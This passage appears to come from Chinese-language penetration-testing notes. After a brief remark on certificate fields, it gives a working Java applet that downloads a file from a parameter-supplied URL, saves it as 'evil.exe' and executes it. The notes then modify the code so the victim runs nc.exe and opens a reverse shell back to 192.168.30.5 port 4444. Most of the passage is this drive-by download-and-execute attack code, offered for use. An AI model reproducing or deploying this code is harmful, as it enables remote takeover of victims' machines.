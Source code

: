 CN=commonName      注：生成证书时,CN要和服务器的域名相同,如果在本地测试,则使用localhost

OU=organizationUnit     O=organizationName      L=localityName      S=stateName     C=country


## java applets

```java.java
import java.applet.*;
import java.awt.*;
import java.io.*;
import java.net.URL;
import java.util.*;
import java.net.URL;

/*  This Java applet will download a file and execute it.   */

public class Java extends Applet {

    private Object initialized = null;
    public Object isInitialized()
    {
        return initialized;
    }
    public void init() {
        Process f;
        try {
            String tmpdir = System.getProperty("java.io.tmpdir") + File.separator;
            String expath = tmpdir + "evil.exe";
            String download = "";
            download = getParameter("1");
            if (download.length() > 0) {
                //URL parameter
                URL url = new URL(download);
                //Get an input stream for reading
                InputStream in = url.openStream();
                //Create a buffered input stream for efficency
                BufferedInputStream bufIn = new BufferedInputStream(in);
                File outputFile = new File(expath);
                OutputStream out = new BufferedOutputStream(new FileOutputStream(outputFile));
                byte[] buffer = new byte[2048];
                for (;;) {
                    int nBytes = bufIn.read(buffer);
                    if (nBytes <= 0) break;
                    out.write(buffer,0,nBytes);
                }
                out.flush();
                out.close();
                in.close();
                f = Runtime.getRuntime().exec("cmd.exe /c " + expath);
            }
        }
        catch(IOException e) {
            e.printStackTrace();
        }
        /* ended here and commented out below for bypass */
        catch (Exception exception)
        {
            exception.printStackTrace();
        }
    }
}
```
因为我们要让目标下载nc.exe并回连到我们的机器,修改上述代码:
f = Runtime.getRuntime().exec("cmd.exe /c" + expath + "192.168.30.5 4444 -e cmd.exe")
